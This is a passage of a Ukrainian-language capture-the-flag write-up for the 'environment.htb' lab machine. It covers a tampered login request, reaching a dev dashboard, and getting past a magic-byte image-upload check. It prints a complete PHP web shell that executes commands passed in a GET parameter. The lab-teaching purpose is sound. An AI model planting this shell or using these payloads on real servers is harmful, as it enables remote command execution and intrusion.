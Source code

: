 ```http
Cookie: XSRF-TOKEN=eyJpdiI6InRvSkEzL3hQcE1aMHBLUVVVQ0xWc3c9PSIsInZhbHVlIjoiaHlIY3ErT1V3aGxwcktVOWt5SXg4TFVJczVrNXJrV1prMGh5MW9JbC93L3hpTnJhem1CVnc5dEMybHJXOFhoYUx3TEl5VjlZYncwUHcweEtlMEdMME1uZHBqVEtWdGc0akIra2VpZXQrWGlmRW0xOStXcTVSZUx4WFBaQXhwTVciLCJtYWMiOiJiNzg0N2E1ODc4MWNlNmRlYzcwM2VmMTU2MWE4YzU0NjEzNTkzODgxOWNmNTUzMDQwOWYwNWViNzBlZWI2NDhlIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImowRjRqQmhQQUZXVHJuSEhuWDYvaWc9PSIsInZhbHVlIjoiakVvWG1qVFFyUlQyV3NITFhKOUliVDlhdW1jTGlHdHRrYUpYTW5XdG0wT3paa09GejQzM3ZyMHhURm1GU3d3Q1JKYmhaWXY5R1ZKTmdvRWVtQXRiTFNWTytnK2l3M3E2dUhBWE1kc3I3OWsraHVER3poMWFLYWFlSENvS0tKZWIiLCJtYWMiOiI2OTYzM2U1OGViMjBmODBmNzQzMGQ4MTdhNGY1OWQ0NGZmM2JiOGExMzM5MTUwZTgxZDgwYmYwODNlOWNmOGFjIiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=REgoc9V6MU0xdUsJMbSBVygImoZg0AgDh0KY4X7A&email=admin%40environment.htb,attacker%40environment.htb&password=admin%27&remember=False
```

Після відправлення запиту в Burp потрібно натиснути на `Show response in browser`, щоб бути перенаправленим на `environment.htb/management/dashboard`

![image](imgs/burp-preprod.png)

![image](imgs/preprod.png)

В основному є один dev аккаунт, під яким ми входимо: hish@environment.htb

І єдина функціональність там - це завантажити зображення профілю, надіславши POST запит на `environment.htb/upload` ендпоінт.

## Обхід завантаження файлів

Спроба завантажити звичайний PHP шел не спрацює, тому що бекенд перевіряє 'magic bytes' всередині вмісту файлу, щоб перевірити, чи є файл справжнім зображенням чи ні. 

Тому нам потрібно знайти спосіб обійти ці перевірки і якось завантажити наш шелл.

### Завантаження php reverse shell

Я використаю цей сайт з різним набором віддалених шеллів під різні мови: https://www.revshells.com/
В даному випадку оскільки сайт працює на PHP, я вибрав собі такий:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
